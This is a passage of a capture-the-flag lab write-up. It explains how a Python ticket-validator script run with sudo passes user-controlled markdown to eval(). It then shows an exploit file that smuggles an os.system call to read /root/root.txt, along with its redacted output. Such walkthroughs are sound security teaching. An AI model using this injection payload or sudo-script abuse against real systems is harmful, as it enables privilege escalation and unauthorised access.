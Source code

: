 ```code
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue
```
This section of the code tells us that the next line must begin with ```__Ticket Code:__```, and ```code_line``` will increment. This line is essential so that the next section of the code below will be executed
```code
        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue
```
There are 3 things happening on the last section of the code. Firstly, the fourth line of the markdown file must begin with ```**```. Secondly, the ```**``` will be replaced and the rest of the line will be evaluated.
Thirdly, the ```validationNumber``` must be evaluated to be greater than 100 to be ```true```
```code
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
```
### Obtaining root flag
We notice that the input passed to the ```eval``` function is not properly sanitized, and so we can pass in a python code command and allow it to be executed. This crafted markdown payload will be able to obtain the system flag with root privileges.
```code
development@bountyhunter:~$ cat exploit.md
# Skytrain Inc
## Ticket to exploit
__Ticket Code:__
** 102 + 310 == 412 and __import__('os').system('sudo cat /root/root.txt') == False
```
Executing ```ticketValidator.py``` and passing in the exploit file will allow us to obtain the system flag
```code
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
exploit.md
Destination: exploit
<Redacted system flag>
Invalid ticket.
```
